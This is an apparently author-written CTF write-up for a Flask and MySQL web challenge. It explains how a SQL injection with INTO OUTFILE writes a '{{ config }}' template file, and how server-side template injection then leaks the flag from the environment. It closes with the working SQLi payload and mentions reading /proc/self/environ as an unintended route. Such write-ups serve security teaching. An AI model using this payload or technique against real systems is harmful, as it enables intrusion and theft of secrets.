 ```yaml
---
title: "Writeups For My Challenge: Do You Think You Delicious"
date: 2024-09-29 14:56 +0700
categories: [Cybersecurity, CTF]
tags: [writeup, "Do You Think You Delicious", sql-injection, ssti]
media_subpath: /assets/do-you-think-you-delicious
---
```



# Introduction
---

In this challenge, the goal is to exploit a series of vulnerabilities step by step, beginning with SQL injection (SQLi), which can be leveraged to write a file. This, in turn, will lead to a server-side template injection (SSTI), ultimately revealing the flag.

### Unintended : 
There is also an unintended solution where SQLi can be used to directly read files, including `/proc/self/environ`, allowing sensitive data to be accessed more quickly.

# Overview

The web application initially presents itself with a simple interface that includes a registration and login form.

 
![alt text](image_1.png)

After successfully registering and logging in, we are redirected to the poem site.

![alt text](image_2.png)

So where is the vuln?

# Dive in code

In **Entrypoint.sh** we have the following snippet code:
```
FLAG=${FLAG:-bkisc{default_flag}}
ESCAPED_FLAG=$(echo "$FLAG" | sed "s/'/''/g")

mysql -u root -e "
CREATE DATABASE IF NOT EXISTS $DB_NAME;
USE $DB_NAME;
CREATE USER IF NOT EXISTS '$DB_USER'@'localhost' IDENTIFIED BY '$DB_PASSWORD';
GRANT SELECT, INSERT ON $DB_NAME.* TO '$DB_USER'@'localhost';
GRANT FILE ON *.* TO '$DB_USER'@'localhost';
FLUSH PRIVILEGES;
CREATE TABLE IF NOT EXISTS users (
  id INT NOT NULL AUTO_INCREMENT,
  username VARCHAR(85) UNIQUE,
  password VARCHAR(120) NOT NULL,
  is_admin TINYINT(1) DEFAULT 0,
  PRIMARY KEY (id)
);
INSERT INTO users (username, password, is_admin)
VALUES ('admin', MD5('${ESCAPED_FLAG}'), 1)
ON DUPLICATE KEY UPDATE password=VALUES(password);
```
It seems like the application creates a database called `bkisc` with a `users` table and adds a record for the `admin` user with the password set to `flag`. However, upon closer inspection, we can see that the flag has been hashed using MD5. This appears to be a troll by the author.

Looking more clearly, we can see that flag also placed in `app.py`. Looking more legit.

```
app.config['FLAG'] = os.getenv('FLAG', 'BKISC{real_flag}')
app.config['TEMPLATES_AUTO_RELOAD'] = True
```
The flag should ideally be stored in the environment variables. There are several ways to locate the flag in the environment, such as:

* Reading the `/proc/self/environ` file
* Remote Code Execution (RCE)
* Server-Side Template Injection (SSTI)

The intended solution for this challenge is SSTI, as we can observe the following line in the `Dockerfile`:

```
RUN chown -R flask
/app/templates
```

and in `app.py`:
```
@app.route('/poem/<path:poem_id>')
def poem(poem_id):
    if not re.match(r'^[a-zA-Z0-9_]+$', poem_id):
        abort(400, description="Invalid poem ID")
    template_name = f'poems/poem_{poem_id}.html'
    try:
        return render_template(template_name)
    except Exception as e:
        print(f"Error rendering poem: {e}")
        return abort(404, description="Poem not found");
```

So the idea is to find the way to create a file with content `{{config}}` in `/app/templates/poems/*` . and access it via the route `/poem/<path:poem_id>`. Then it will render all env parameter as following.

![alt text](image_3.png)


```
abc' UNION SELECT '{{ config }}',1 INTO OUTFILE '/app/templates/poems/poem_3.html' #
```
